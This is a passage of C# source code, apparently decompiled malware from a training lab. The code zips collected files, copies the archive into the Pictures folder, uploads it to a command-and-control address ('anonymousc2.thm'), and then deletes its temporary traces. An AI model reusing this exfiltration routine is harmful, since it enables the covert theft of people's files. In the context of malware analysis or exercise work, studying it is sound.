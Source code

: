     			{
    				Log($"{num} files were found and copied.");
    				if (File.Exists(text2))
    				{
    					File.Delete(text2);
    					Log("Existing zip file in the temp folder deleted.");
    				}
    				Log("Creating zip file: " + text2);
    				ZipFile.CreateFromDirectory(text, text2);
    				Log("Zip file created successfully.");
    				string text3 = Path.Combine(folderPath, "CollectedFiles.zip");
    				if (File.Exists(text3))
    				{
    					File.Delete(text3);
    					Log("Existing zip file in Pictures deleted.");
    				}
    				File.Copy(text2, text3);
    				Log("Zip file copied to Pictures: " + text3);
    				Log("Uploading zip file...");
    				UploadFileToServer(text2);
    			}
    			Directory.Delete(text, recursive: true);
    			File.Delete(text2);
    			Log("Temporary files deleted.");
    		}
    		catch (Exception ex)
    		{
    			Log("An error occurred: " + ex.Message);
    		}
    	}
    
    	private static void UploadFileToServer(string zipFilePath)
    	{
    		string address = "http://anonymousc2.thm/upload";
    		using WebClient webClient = new WebClient();
    		try
    		{
    			webClient.UploadFile(address, zipFilePath);
    			Log("File uploaded successfully.");
    		}
    		catch (WebException)
    		{
    		}
    	}
    
    	private static void Log(string message)
    	{
    		if (loggingEnabled)
    		{
    			Console.WriteLine(message);
    		}
    	}
    }
    ```
    